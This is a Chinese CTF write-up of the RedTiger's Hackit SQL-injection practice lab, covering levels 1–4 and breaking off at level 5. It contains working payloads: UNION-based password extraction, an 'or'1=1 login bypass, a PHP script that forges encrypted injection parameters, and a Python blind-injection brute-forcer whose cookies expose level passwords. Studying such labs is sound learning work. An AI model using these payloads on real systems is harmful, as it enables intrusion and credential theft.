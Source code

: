 ```yaml
---
layout: default
title: "RedTiger's-Hackit-Writeup"
date: 2018-03-18
categories: SQL注入
tags: SQL注入
description: RedTiger's-Hackit是一个练习SQL注入的靶场
---
```


### 概述
	RedTiger's Hackit的网址是`https://redtiger.labs.overthewire.org`，有盲注，绕过等

### level1

这是level1的页面，我们得到提示：表名为`level1_users`。

![level1](http://101.132.99.228/post_img/level1.png)

点击Category:1，发现页面发生变化，这是我们的注入点。在URL后面添加

`and 1=1`和`and 1=2`

页面发生变化，则该注入点可以利用。输入`order by 1,2`判断该表有几列，输入到`order by 1,2,3,4,5`页面发生变化，那么我们判断除id外还有三列。


输入`union select 1,2,3,4 from level1_users`，发现3，4被显示出来

于是我们构造

`union select 1,2,username,password from level1_users`

就得到了登录的username和password，输入之后得到flag。

### level2
来到level2的页面，提示是loginbypass

![level2](http://101.132.99.228/post_img/level2.png)

使用`'or'1=1`进行绕过。
输入用户名，密码为`'or'1=1`，成功登录，得到flag。

### level3
提示线索是`Try to get an error`，通过错误信息得到进一步的信息。

![level3](http://101.132.99.228/post_img/level3.png)

点击Show userdetails:下面的两个超链接`TheCow`和`Admin`，发现可以进行注入。

点击Admin，查询条件是

`usr=MDQyMjExMDE0MTgyMTQw`

我们构造`usr[]=MDQyMjExMDE0MTgyMTQw`制造一个错误。
通过这个错误，我们得到报错信息

`Warning: preg_match() expects parameter 2 to be string, array given in /var/www/html/hackit/urlcrypt.inc on line 25`

猜测urlcrypt.inc文件中有我们要的信息。
打开urlcrypt.inc是一个PHP代码，作用是对字符串进行编码，这两个函数可能就是对url进行编码的。构造以下poc进行验证。

	<?php

		function encrypt($str)
		{
			$cryptedstr = "";
			srand(3284724);
			for ($i =0; $i < strlen($str); $i++)
			{
				$temp = ord(substr($str,$i,1)) ^ rand(0, 255);
				
				while(strlen($temp)<3)
				{
					$temp = "0".$temp;
				}
				$cryptedstr .= $temp. "";
			}
			return base64_encode($cryptedstr);
		}
	  
		$url='Admin';
		echo 'Admin encrypted:'.encrypt($url);
	?>

得到结果为
	
	Admin encrypted:MDQyMjExMDE0MTgyMTQw
	//Windows下的执行结果为：Admin encrypted:MjE5MTU5MDM5MDIxMDYx
	//Linux执行结果为：     Admin encrypted:MDQyMjExMDE0MTgyMTQw
	//造成这个差别的原因是，在srand()设置随机数种子相同时，调用随机数函数rand()的结果不同
	//考虑到大部分服务器系统都是Linux，所以在编写poc时最好在Linux系统上运行

与Admin的查询条件刚好相同，所以它的原理是先对查询语句进行编码，那我们构造注入语句

	' union select 1,password,2,3,4,5,6 from level3_users where username='Admin
	//经过encrypt函数编码为
	MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0MTg3MDk1MDg0MjQzMDE3MjUyMDI1MTI2MTU2MTc2MTMzMDAwMjQ2MTU2MjA4MTgyMDk2MTI5MjIwMDQ5MDUyMjMwMTk4MTk2MTg5MTEzMDQxMjQwMTQ0MDM2MTQwMTY5MTcyMDgzMjQ0MDg3MTQxMTE1MDY2MTUzMjE0MDk1MDM4MTgxMTY1MDQ3MTE4MDg2MTQwMDM0MDg1MTE4MTE4MDk5MjIyMjE4MDEwMTkwMjIwMDcxMDQwMjIw

于是顺利得到Admin的登录口令

### level4
level4是盲注,我们的目标是得到`level4_secret`这个表的keyword列的第一个值
![level4](http://101.132.99.228/post_img/level4.png)

首先来进行布尔盲注来判断keyword的长度'id=1 and (select count(*) from level4_secret where length(keyword)=4'。一直判断到`length(keyword)=21`，才返回`Query returned 1 rows`，证明keyword的长度是21。接下来编写poc来暴力破解出keyword的字段值。

	import re
	import string
	ans=''
	char=string.printable
	url="https://redtiger.labs.overthewire.org/level4.php?id=1%20and%20(select%20count(*)%20from%20level4_secret%20where%20substr(keyword,{0},1)='{1}')"
	header={"cookie":"level2login=4_is_not_random; level3login=feed_your_cat_before_your_cat_feeds_you; __cfduid=decf6542800964a4fa1356e86419c65341521017670; __utma=176859643.251792877.1521017673.1521017673.1521017673.1; __utmz=176859643.1521017673.1.1.utmcsr=wechall.net|utmccn=(referral)|utmcmd=referral|utmcct=/open_challs/by/chall_score/ASC/page-1; level4login=there_is_no_bug"
	        }
	for i in range(1,21):
	    for j in char:
	        uurl=url.format(i,j)
	        s=requests.post(url=uurl,headers=header)
	        if re.findall('Query returned 1 rows. ', s.text):
	            print(j)
	            ans=ans+j
	            break
	print(ans)

最终顺利得到keyword的值。

### level5
level5是Bypass绕过，提示的信息有：substring，substr，（，），mid都不能使用；密码是MD5加密的，关注登录错误。
![level5](http://101.132.99.228/post_img/level5.png)
